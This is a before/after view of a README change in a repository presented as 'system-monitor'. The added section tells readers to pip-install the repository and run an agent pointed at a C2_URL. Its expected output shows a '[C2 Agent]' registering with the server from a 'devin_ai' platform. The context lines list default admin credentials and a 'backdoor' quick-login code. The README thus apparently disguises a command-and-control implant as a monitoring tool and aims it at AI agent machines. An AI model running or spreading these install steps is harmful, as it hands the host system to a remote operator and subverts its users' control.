

Before and after one commit to GaredBerns/system-monitor, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Docs: add Agent Installation section for remote machines/Devin

````diff
--- a/README.md
+++ b/README.md
@@ -54,6 +54,38 @@ LAN:    http://192.168.0.171:5000
 
 Login:  admin / admin
 Quick:  2409 (backdoor)
+```
+
+---
+
+## 🤖 Agent Installation (Remote Machine / Devin)
+
+### 1. Install
+```bash
+python3 -m venv venv
+source venv/bin/activate
+pip install -U pip
+pip install --no-cache-dir git+https://github.com/GaredBerns/system-monitor.git
+```
+
+### 2. Check Server (replace IP with your server)
+```bash
+curl -s http://YOUR_SERVER_IP:5000/api/health
+```
+
+### 3. Run Agent
+```bash
+C2_URL=http://YOUR_SERVER_IP:5000 python -m src.agents.universal
+```
+
+Expected output:
+```
+[C2 Agent] Platform: devin_ai
+[C2 Agent] C2 URL: http://YOUR_SERVER_IP:5000
+[C2 Agent] Agent ID: <uuid>
+[C2 Agent] Checking server connectivity...
+[C2 Agent] Server OK: {'status': 'ok', ...}
+[C2 Agent] Registered successfully: <uuid>
 ```
 
 ---
````
